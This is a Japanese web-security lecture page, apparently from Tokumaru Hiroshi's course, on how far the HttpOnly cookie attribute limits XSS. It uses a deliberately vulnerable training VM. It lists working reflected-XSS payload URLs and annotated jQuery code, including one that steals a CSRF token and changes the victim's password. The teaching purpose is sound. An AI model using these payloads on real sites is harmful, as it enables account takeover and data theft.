 # CookieのHttpOnly属性でどこまで安全になるのか

- 本日お伝えしたいこと
  - CookieのHttpOnly属性について説明します
  - CookieのHttpOnly属性でクロスサイトスクリプティング攻撃がどの程度安全になるかを説明します
- 前提となる環境
  - 徳丸本VM(Bad Todo List)

# PoC

```
# XSS1 (Cookieの表示)
http://example.jp/todo/todolist.php?key="><script>alert(document.cookie)</script>


# XSS2 (HTMLの表示)
http://example.jp/todo/todolist.php?key="><script>alert(document.documentElement.innerHTML)</script>


# XSS3 (XHRによるマイページ表示)
http://example.jp/todo/todolist.php?key="><script>$.ajax({url:"mypage.php"}).done(function(d){alert(d)})</script>


# XSS4 (パスワード変更)
http://example.jp/todo/todolist.php?key="><script>$.ajax({url:"changepwd.php"}).done(function(d){console.log(d);token%3dd.match("[0-9a-f]{48}")[0];console.log(token);$.ajax({type:"POST",url:"changepwddo.php",data:{newpwd:"a",newpwd2:"a",id:1,todotoken:token}})})</script>
```

参考ソースコード
```
// XSS1 (Cookieの表示)
alert(document.cooki)

// XSS2 (HTMLの表示)
script>alert(document.documentElement.innerHTML)

// XSS3 (XHRによるマイページ表示)
$.ajax({
  url: "mypage.php"
}).done(function(d) {
  alert(d)
}) // jQueryを使っているのはBad Todo ListでjQueryを使っているため


// XSS4 (パスワード変更)
$.ajax({
  url: "changepwd.php" // パスワード変更フォームをリクエスト
}).done(function(d) {
  token = d.match("[0-9a-f]{48}")[0]; // 正規表現によりトークン取得
  $.ajax({     
    type: "POST",
    url:"changepwddo.php", // パスワード変更
    data: {newpwd:"a", newpwd2:"a", id:1, todotoken:token}
  }) // ↑ パスワードを「a」に変更
})
```

動画URL : [CookieのHttpOnly属性でどこまで安全になるのか]()

YouTubeチャンネル　[徳丸浩のウェブセキュリティ講座](https://www.youtube.com/channel/UCLNW6Bo_YU3TxnzsII2gEDA)
